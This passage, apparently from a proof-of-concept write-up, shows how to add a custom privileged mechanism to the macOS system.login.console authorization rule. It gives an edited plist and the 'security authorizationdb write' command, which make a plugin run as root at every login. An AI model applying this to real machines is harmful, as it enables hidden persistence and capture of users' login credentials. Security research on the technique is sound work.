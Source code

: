 before proceeding, we have to modify the `poc.plist` file. add the following line: `<string>BundleName:login,privileged</string>` to the file, so that it looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>class</key>
	<string>evaluate-mechanisms</string>
	<key>comment</key>
	<string>Login mechanism based rule.  Not for general use, yet.</string>
	<key>created</key>
	<real>719346785.95490503</real>
	<key>mechanisms</key>
	<array>
		<string>builtin:prelogin</string>
		<string>builtin:policy-banner</string>
		<string>loginwindow:login</string>
		<string>builtin:login-begin</string>
		<string>builtin:reset-password,privileged</string>
		<string>loginwindow:FDESupport,privileged</string>
		<string>builtin:forward-login,privileged</string>
		<string>builtin:auto-login,privileged</string>
		<string>builtin:authenticate,privileged</string>
		<string>PKINITMechanism:auth,privileged</string>
		<string>builtin:login-success</string>
		<string>loginwindow:success</string>
		<string>HomeDirMechanism:login,privileged</string>
		<string>HomeDirMechanism:status</string>
		<string>BundleName:login,privileged</string>
		<string>MCXMechanism:login</string>
		<string>CryptoTokenKit:login</string>
		<string>loginwindow:done</string>
	</array>
	<key>modified</key>
	<real>719346785.95490503</real>
	<key>shared</key>
	<true/>
	<key>tries</key>
	<integer>10000</integer>
	<key>version</key>
	<integer>11</integer>
</dict>
</plist>
```

update the authorization database.

```bash
security authorizationdb write system.login.console < poc.plist      
YES (0)
```

